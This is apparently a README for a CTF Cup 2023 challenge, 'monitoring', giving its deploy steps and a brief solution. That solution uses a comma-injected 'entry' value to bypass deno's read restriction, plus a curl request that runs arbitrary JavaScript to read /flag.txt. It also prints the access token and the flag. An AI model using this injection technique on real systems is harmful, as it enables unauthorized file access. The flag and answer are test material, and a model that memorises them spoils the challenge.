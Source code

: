 # web | monitoring

## Information

Нам удалось вчёрную получить на руки некоторые из сервисов, встроенных в различные компоненты Megalith, но, к сожалению, только в бинарном виде. В частности, нам достался какой-то из серверов системы мониторинга за населением Metra Veehkim, может получиться как-нибудь разобраться с ним и выяснить, какие данные о нас собирают Арбалеты?

We've managed to (not entirely legally) get our hands on some of the services embedded into the differents components of Megalith, but, sadly, only as binaries. Specifically, we've got one of the servers of the Metra Veehkim citizen monitoring system, do you think it could perhaps somehow help us figure out what kind of data the Arbalests are collecting about us?

[https://monitoring-e2fc67113f9ed6f1d2bd6eae0c98f124.ctfcup-2023.ru](https://monitoring-e2fc67113f9ed6f1d2bd6eae0c98f124.ctfcup-2023.ru)

## Deploy

Need whale deployment.

```sh
cd deploy
docker compose -p rev-monitoring up --build -d
```

## Public

Provide zip file: [public/monitoring.zip](public/monitoring.zip).

## TLDR

Find source code at the end of the file (e.g using `rabin2 -zzz`), extract it, perform simple reverse engineering (as usual the obfuscation basically stores all strings in an array).

The app executes our code from the "cmd" parameter using deno, and you can specify the entry to read using the "entry" parameter:

```js
const command = Bun.spawn(
  ["/usr/bin/deno", "run", `--allow-read=./${entry}`, cmdPath],
  {
    stderr: "ignore",
    cwd: "entries",
    env: {},
  }
);
```

However, ".." is banned in entry, but you can simply specify a second path using a comma in order to get read access to the root.

```sh
curl http://localhost:1984 -i -H "Monitor-Access-Token: MEGALITH_MONITORING_SYSTEM_EZRVJJCQ4ET3W25BONANMPWPQSRV7JXE" --data-raw '{"cmd":"console.log(new TextDecoder().decode(Deno.readFileSync(\"/flag.txt\")))","entry":"/,/"}'
```

## Writeup (ru)

TODO

## Writeup (en)

TODO

## Domain

https://monitoring-e2fc67113f9ed6f1d2bd6eae0c98f124.ctfcup-2023.ru

## Cloudflare

Yes

## Flag

ctfcup{t00-m4ny-su55y-jS-runt1m3s-f7cc17249450a7fb}
